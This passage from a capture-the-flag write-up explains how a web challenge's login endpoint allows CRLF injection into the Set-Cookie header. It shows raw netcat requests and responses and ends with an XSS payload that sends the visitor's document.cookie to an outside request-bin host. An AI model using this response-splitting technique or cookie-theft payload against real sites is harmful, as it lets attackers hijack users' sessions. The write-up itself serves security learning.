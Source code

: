 We see that when we visit the dashboard page, a cookie named `"secret"` is set. This essentially confirms that the challenge is XSS based. Submitting a link that points to a server that we control (or a [request bin](requestbin.com/)) into the share link field will confirm that this feature in the website causes someone (presumably a browser who has the flag in their `"secret"` cookie) to visit the link.

Our goal then becomes to find an XSS vulnerability somewhere in the website. Something interesting to note is that there are no POST requests, and in fact, other than the share link feature, the only other place where the website takes user input is when we log in, so we direct our attention there.

If we take a look at the request again, we notice that a `"username"` cookie is being set whose value is equal to our input. Whenever we see the server using user supplied input, it is always a good idea to test if it is properly sanitised. If we try supplying `"hello%20a"` as our username in the path, we see that the response `Set-Cookie` header sets the `"username"` cookie to `"hello a"`:

```
$ nc -C ws-chall.umisc.info 2001
GET /login?username=hello%20a HTTP/1.1

HTTP/1.1 200 OK
Content-Type: text/html
Set-Cookie: username=hello a; path=/;
Server: HTTP Server 3000
Connection: closed

<html>Thanks for logging in! Click <a href="/dashboard">here</a> to go to your dashboard...</html>
```

This tell us that the server is taking our username input, [URL decoding](https://en.wikipedia.org/wiki/Percent-encoding) it, and setting that as the cookie. What would happen if we tried to send the URL encodings of `\r\n` (CRLF)?

```
$ nc -C ws-chall.umisc.info 2001
GET /login?username=hello%0A%0D HTTP/1.1

HTTP/1.1 200 OK
Content-Type: text/html
Set-Cookie: username=hello
; path=/;
Server: HTTP Server 3000
Connection: closed

<html>Thanks for logging in! Click <a href="/dashboard">here</a> to go to your dashboard...</html>
```

We see that the `"; path=/;"` part of the `Set-Cookie` header has been moved to the next line! Now, if we send another CLRF, a normal browser would interpret the remainder of the response as the actual response body. This gives us the freedom to create whatever response we want. Since this is all done through a GET request via the url query parameter, we can submit this as a link to share. All that's left is to create an XSS payload to grab the visitor's cookie.

The following payload will work:

```
\r\n\r\n<script>fetch('https://enp7ii7txpbn.x.pipedream.net/'+document.cookie)</script>
```
